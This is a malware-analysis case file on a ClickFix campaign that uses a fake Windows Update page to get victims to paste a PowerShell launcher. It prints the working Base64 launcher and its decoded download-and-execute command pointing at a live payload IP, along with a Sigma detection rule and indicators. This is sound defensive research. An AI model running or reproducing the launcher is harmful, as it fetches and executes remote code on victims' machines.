








# Case file: fake Windows Update delivered through dateseni.su

**Case ID:** CF-2026-1117-01
**Analyst:** Sujal Adhikari
**Opened:** 2026-11-17
**Last observation:** 2026-11-17 08:22 GMT
**Classification:** TLP:AMBER
**Method:** static string analysis, passive OSINT, and minimal live verification
**Status of infrastructure at close:** lure retired, payload host still live

---

## 1. Verdict

The URL `dateseni.su/rave/next.php` was part of a ClickFix campaign: a fake
Windows Update page that talks the visitor into opening PowerShell and pasting
a Base64 launcher from the clipboard.

| Question | Answer | Confidence |
|---|---|---|
| Is the technique malicious? | Yes. ClickFix / paste-and-run. | High |
| Does the launcher do what the page implies? | No. It downloads and executes a remote script. | High |
| Is the lure still serving the fake update? | No. Returns 404 as of 2026-11-17. | High |
| Is the payload server still active? | Yes. Still returns 302 to google.com. | High |
| What does the second stage do? | Unknown. Never retrieved. | n/a |

The interesting part of this case is not the payload. It is how the
infrastructure was built and how it was taken apart. The lure domain and the
payload server sat on different providers, different countries and different
autonomous systems, and they were retired at different times.

---

## 2. How this was investigated

I worked the case in this order, and I am recording the dead ends because they
change what the conclusions are worth.

| Step | What I did | Result |
|---|---|---|
| 1 | Decoded the Base64 blob by hand | One-layer decode to a two-cmdlet PowerShell command |
| 2 | Resolved the lure domain | A 196.251.107.41, NS ns1/ns2.reg.ru |
| 3 | Looked up both IPs | Two unrelated providers, DE and US |
| 4 | Pulled certificate transparency | SAN list reveals a mail kit |
| 5 | Checked the Internet Archive | One snapshot, showing a redirect, not the payload |
| 6 | Searched urlscan | One sandbox submission of the payload path |
| 7 | Queried OTX and GreyNoise | No pulses, no scanning behaviour |
| 8 | Tried the abuse.ch APIs | Gated behind an API key, not queried |
| 9 | Tried AbuseIPDB | Blocked automated access |
| 10 | Tested the live hosts | Lure 404 and no HTTPS, payload host still cloaking |

Two rules I held to through the whole case:

- I did not execute the payload at any point. The only thing computed from the
  user's string was a Base64 decode and SHA256 hashes.
- I did not download the second stage. Requesting `/zap/` as a browser would is
  how you compromise the analysis box and burn the campaign at the same time.
  One HEAD request was enough to prove the host is still selecting responses.

---

## 3. Timeline

Reconstructed from certificate dates, archive timestamps, server headers and
the victim account. Everything is UTC.

| Date | Event | Source |
|---|---|---|
| 2026-03-21 | GlobalSign DV certificate issued, covering `mail`, `owa`, `autodiscover`, `www` | crt.sh |
| 2026-06-18 | Let's Encrypt certificate reissued for `dateseni.su` and `www` | crt.sh |
| 2026-07-05 20:29 | Wayback captures `next.php`. Body is a 124-byte redirect to an adult site | Wayback |
| 2026-08-18 11:28 | Last modification time on the host's current 404 page | HTTP header |
| 2026-11-12 21:38 | urlscan sandbox requests `/zap` from Germany, gets redirected to Google | urlscan |
| 2026-11-17 08:22 | Lure returns 404, HTTPS refused, root serves hosting placeholder | live check |
| 2026-11-17 08:22 | Payload host still answers with 302 to google.com | live check |

The campaign ran for at least eight months (March to November). The lure was
retired at some point between August and November. The payload server was still
cloaking on the day this report was written.

---

## 4. The lure

### 4.1 What the visitor saw

A link opens, the screen goes black, and a full-screen Windows Update appears
with a progress bar. It reaches 90% and stops, then asks the user to finish the
update manually:

```
1. Press Windows + X
2. Press I
3. Press Control + V
```

Each step does one thing. `Win+X` opens the Power User menu. `I` selects
Terminal or PowerShell from that menu. `Ctrl+V` pastes the clipboard. The page
put the launcher on the clipboard before it drew the progress bar.

The design avoids the older `Win+R` trick, which endpoint tools now watch, and
it avoids typing entirely. The victim never reads the command before it runs.

### 4.2 What the lure serves today

`http://dateseni.su/rave/next.php` returns 404 from `nginx/1.18.0 (Ubuntu)`,
with a `Last-Modified` of 18 August 2026.


The domain root returns the default hosting placeholder, not a phishing page
and not the fake update.


Port 443 refuses connections on `dateseni.su`, `www.dateseni.su` and the
payload IP. The certificates in the CT logs are no longer served by anything.
That means the HTTPS link the victim originally clicked cannot resolve today at
all.

This is worth stating plainly because it changes the report. There is no live
fake-update page to screenshot. What the victim saw on the day, and what the
server returns now, are two different things.

---

## 5. Payload analysis

### 5.1 Delivered form

```
iex([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String('SW52b2tlLVdlYlJlcXVlc3QgJ2h0dHA6Ly8xNjYuMS44OS45MS96YXAvJyAtVXNlQmFzaWNQYXJzaW5nIHwgSW52b2tlLUV4cHJlc3Npb24=')))
```

The trailer in the string is `iex(`, the PowerShell alias for `Invoke-Expression`.
Everything inside it is data. Nothing runs until that outer call evaluates the
decoded text.

### 5.2 Decoded

```
Invoke-WebRequest 'http://166.1.89.91/zap/' -UseBasicParsing | Invoke-Expression
```

| Element | Behaviour |
|---|---|
| `Invoke-WebRequest` | Fetches the URL and returns the body as a string |
| `http://166.1.89.91/zap/` | Stage 2 endpoint. Bare IP, plain HTTP, no TLS, no hostname |
| `-UseBasicParsing` | Skips the IE engine, works in constrained sessions |
| `Invoke-Expression` | Evaluates the returned string as code |

Three properties matter:

**It is fileless.** The response stays in memory and is evaluated there. No
file is written, so there is nothing for a file scanner to quarantine and no
hash to blocklist.

**It leaves almost no network trace.** The destination is an IP literal, so
there is no DNS query to log and no SNI to inspect. The only artefact is a
plain HTTP GET on port 80 from `powershell.exe`.

**It runs inside a signed binary.** `powershell.exe` is Microsoft-signed. No new
executable, driver or unsigned module appears.

The Base64 does not resist analysis. It resists the victim. A person glancing at
the clipboard sees gibberish instead of `http://166.1.89.91`. Anyone with a
terminal decodes it in a second.

### 5.3 Hashes

```
SHA256 base64 blob      : 6ccfc636a365453ccbc0e741d5c4a93dcc619c7cbd153f98072dd4b0163aabe8
SHA256 decoded string   : c8c07a9457f5ce2d063c3ad4b7c6ef8e2ded2cb2d43f6a41d43b68c8b8d63763
SHA256 full one-liner   : c64af60adc8ee3ab91fc9f1960da8b6a9822ad7a5629baacb0710aa9547db311
```

These are hashes of strings, not of files. A re-encoded variant of the same
command produces a different hash. They are here to prove which text was
analysed, not to blocklist.

---

## 6. Infrastructure

### 6.1 Two separate builds

| Role | Indicator | Location | ASN | Server |
|---|---|---|---|---|
| Lure / redirector | dateseni.su | Frankfurt, DE | AS214351 FEMO IT SOLUTIONS | nginx 1.18.0 (EOL) |
| Payload host | 166.1.89.91 | New York, US | AS395839 HOSTKEY / InterLIR | Apache 2.4.52 |

Lure A record: `196.251.107.41`. Nameservers: `ns1.reg.ru`, `ns2.reg.ru`, a
Russian registrar. The TLD is `.su`, the legacy Soviet Union zone, which is
cheap and lightly policed.





Nothing is shared between the two: no provider, no country, no ASN, no
nameserver, no certificate. Blocking the domain does not stop the payload, and
blocking the payload does not stop the domain. That is deliberate.

### 6.2 The certificate is the most informative artefact



The March certificate covers more than a website needs:

```
autodiscover.dateseni.su
dateseni.su
mail.dateseni.su
owa.dateseni.su
www.dateseni.su
```

`owa` is Outlook Web Access. `autodiscover` is what Outlook clients query to
find their settings. A domain that only redirects visitors has no reason to
request those names. This hostname set is what you build when you intend to
send mail from a lookalike domain and catch the recipients on a fake webmail
login.

So the `.su` domain was a mail phishing kit with several ways in. The `rave`
path was one campaign on it.

### 6.3 Both servers are unpatched

Shodan's InternetDB shows what each box exposes:

```
166.1.89.91    ports 22,80   Apache 2.4.52 (Ubuntu)   OpenSSH 8.9p1
196.251.107.41 ports 22,80   nginx 1.18.0 (Ubuntu)    OpenSSH 8.9p1
```



Apache 2.4.52 shipped in December 2021 and has not been updated. nginx 1.18.0
is flagged end-of-life. Both boxes run the same OpenSSH build, which suggests
the same provisioning image or the same operator habits. Neither exposes a
hostname.

Operators who do not patch their own attack infrastructure are not careful
people. It also means the boxes are probably shared with other criminal
activity, and possibly compromised themselves.

---

## 7. Cloaking, and why every scan looks clean

This is the part that makes the case hard to assess from reputation data alone.

The archived copy of `next.php` is not the fake update. It is a redirect to an
adult video site:

```html
<meta http-equiv="refresh" content="0; url=https://highporn.net/video/30978/...">
```



urlscan's sandbox asked the payload host for `/zap` on 12 November and was sent
to Google. The redirect chain is four hops, ending at `www.google.com`, and the
request was made from a German node:





The sandbox received a Google consent page in German. That is a deliberate
disguise. A scanner, a researcher, a datacentre IP or the wrong geography gets
a harmless redirect and a clean verdict. A real desktop browser in the target
region gets the payload.

I reproduced this with a single HEAD request on the day of writing:

```
HTTP/1.1 302 Found
Server: Apache/2.4.52 (Ubuntu)
Location: https://www.google.com/
```

Five days after the sandbox scan, the same host is still answering the same way.
The cloaking logic is still running.

Consequence for anyone reading this: "I submitted it to VirusTotal and it came
back clean" tests the decoy, not the malware.

---

## 8. Intelligence correlation

| Source | Result |
|---|---|
| AlienVault OTX, IP and domain | 0 pulses for both |
| GreyNoise, both IPs | not observed scanning, not a known benign service |
| abuse.ch URLhaus / ThreatFox | API requires a key, not queried |
| AbuseIPDB | blocked automated access |
| urlscan, IP | 1 submission, 12 November |



Both indicators return nothing in OTX, and neither host scans the internet
according to GreyNoise. That combination fits a purpose-built staging server
that only talks to victims, not a compromised machine that scans outward.

It also means the infrastructure has not been published to the community. At
the time of writing this is not "known bad" in public feeds. That is not the
same as safe, and it is the reason the verdict rests on direct observation
rather than reputation.

---

## 9. MITRE ATT&CK

| Technique | ID | Evidence |
|---|---|---|
| Phishing | T1566 | Delivery of the `.su` link |
| Drive-by compromise | T1189 | Adult-site placement serving the overlay |
| User execution: malicious copy and paste | T1204.004 | `Ctrl+V` of the launcher |
| Clipboard data | T1115 | Command placed on the clipboard by the page |
| Masquerading | T1036 | Fake Windows Update interface |
| Impersonation | T1656 | Posing as Microsoft |
| PowerShell | T1059.001 | `iex(...)` |
| Obfuscated files or information | T1027 | Base64 wrapper |
| Deobfuscate/decode | T1140 | `FromBase64String` |
| Ingress tool transfer | T1105 | `Invoke-WebRequest` to `/zap/` |
| Web protocols | T1071.001 | Plain HTTP to an IP literal |
| Signed binary proxy execution | T1218 | Abuse of signed `powershell.exe` |

---

## 10. Detection

The command line is the cheapest place to catch this, because the victim has to
type it into a real terminal.

### 10.1 Signals ranked by value

1. **Script Block Logging 4104** containing `Invoke-WebRequest` and
   `Invoke-Expression` in the same block. This survives re-obfuscation because
   it logs the evaluated code.
2. **`powershell.exe` whose parent is `explorer.exe`** with a short command
   line. That is the `Win+X` then `I` path. Normal PowerShell is not launched
   from Explorer.
3. **An outbound HTTP request to an IP literal** from `powershell.exe`, with no
   preceding DNS lookup.
4. **AMSI** buffer containing `FromBase64String` and a URL.
5. **Proxy logs** showing `User-Agent: ... WindowsPowerShell/5.1.x`.

### 10.2 Sigma

```yaml
title: ClickFix Style PowerShell Download and Execute
logsource:
  category: process_creation
  product: windows
detection:
  selection_img:
    - Image|endswith: '\powershell.exe'
    - Image|endswith: '\pwsh.exe'
  selection_download:
    CommandLine|contains: ['Invoke-WebRequest', 'iwr ', 'Net.WebClient', 'DownloadString']
  selection_exec:
    CommandLine|contains: ['Invoke-Expression', 'IEX']
  condition: selection_img and selection_download and selection_exec
level: high
```

Full rules in `detections/`.

### 10.3 The control that removes the technique

Restrict `Win+X` then Terminal for standard users through policy. Almost no
ordinary user needs it, and without it the instruction on the fake page does
nothing.

---

## 11. Response

### 11.1 If the command was not run

Clear the clipboard first. The launcher is still there and one stray paste into
a terminal executes it. Then close the browser completely, clear the site's
permissions and storage, and check the download history.

### 11.2 If it was run

The host is compromised. The launcher gives whoever runs `/zap/` arbitrary code
execution.

1. Disconnect from the network.
2. Change passwords from a different, clean device.
3. Revoke active sessions. Session cookies are stolen by these loaders and a
   password change alone does not evict the attacker.
4. Collect logs before wiping: 4104 events, Sysmon, process history.
5. Check persistence: Run keys, scheduled tasks, WMI subscriptions, new services.
6. Reimage. With an unknown second stage there is no defensible way to prove a
   clean-up worked.

### 11.3 Abuse reporting

| Target | Contact |
|---|---|
| Payload host | HOSTKEY / InterLIR, `ripe@interlir.com` (AS395839) |
| Lure host | `abuse@rentdedic.com` (AS214351) |
| Registrar | REG.RU abuse desk |
| Certificates | GlobalSign, Let's Encrypt revocation |
| Browser vendors | Google Safe Browsing, Microsoft SmartScreen |

---

## 12. What this case does not establish

- **Second stage is unknown.** No capability, no command and control, no
  persistence was observed. Anything said about `/zap/` beyond "it redirects
  scanners to Google" would be invention.
- **The fake update page was never captured.** The overlay is described from the
  victim account and the standard template. The archive only preserved the
  redirect variant.
- **The traffic source is unknown.** The mail hostnames point at spam. A
  malvertising placement on the adult site fits the evidence equally well.
- **No attribution.** `.su` and REG.RU are used by many unrelated actors.
- **No hash of the malware exists**, because no malware file was ever obtained.

---

## 13. Indicators of compromise

Defanged.

```
LURE
  dateseni[.]su/rave/next.php
  dateseni[.]su                     196.251.107[.]41
  mail[.]dateseni[.]su
  owa[.]dateseni[.]su
  autodiscover[.]dateseni[.]su

PAYLOAD
  166.1.89[.]91/zap/
  166.1.89[.]91

HOSTING
  AS395839  HOSTKEY / InterLIR LLC          (payload, US)
  AS214351  FEMO IT SOLUTIONS LIMITED       (lure, DE)

TLS
  05fd43a507156b30c41e74149c948a0f8416      Let's Encrypt, dateseni.su
  11e6bb08a96e18ae71df52c2                  GlobalSign, mail/owa/autodiscover

BEHAVIOUR
  powershell.exe launched by explorer.exe
  Invoke-WebRequest | Invoke-Expression
  FromBase64String containing an http:// IP literal
  HTTP GET to a bare IP with no preceding DNS lookup
```

---

## Appendix: evidence index

| File | What it is | Type |
|---|---|---|
| `screenshots/01-actual-site-404.png` | The URL as it resolves today | Live capture |
| `screenshots/02-actual-site-root.png` | Domain root, hosting placeholder | Live capture |
| `screenshots/03-ipinfo-payload-host.png` | Payload IP ownership | Third party |
| `screenshots/04-ipinfo-lure-host.png` | Lure IP ownership | Third party |
| `screenshots/05-crtsh-certificates.png` | Certificate SANs | Third party |
| `screenshots/06-urlscan-result.png` | Sandbox redirect chain | Third party |
| `screenshots/07-urlscan-cloak-screenshot.png` | What the sandbox received | Third party |
| `screenshots/08-urlscan-search.png` | Search for the payload IP | Third party |
| `screenshots/09-wayback-cdx.png` | Archive index | Third party |
| `screenshots/10-shodan-internetdb.png` | Open ports and software versions | Third party |
| `evidence/decoded-payload.txt` | Deobfuscation notes | Derived |
| `evidence/live-state-2026-11-17.txt` | Raw live measurements | Direct observation |
| `evidence/intel-correlation.txt` | Feed lookups and dead ends | Direct observation |
| `evidence/tls-certificates.txt` | CT log detail | Third party |
| `evidence/wayback-archive.txt` | Archived body and analysis | Third party |
| `evidence/urlscan.txt` | Sandbox submission detail | Third party |
| `evidence/hashes.txt` | String hashes | Derived |
| `iocs.csv` | Machine-readable indicators | Derived |

---

*Static analysis and passive OSINT. The payload was not executed. The second
stage was not fetched. All live checks were TCP connects, one GET per web path,
and one HEAD request.*
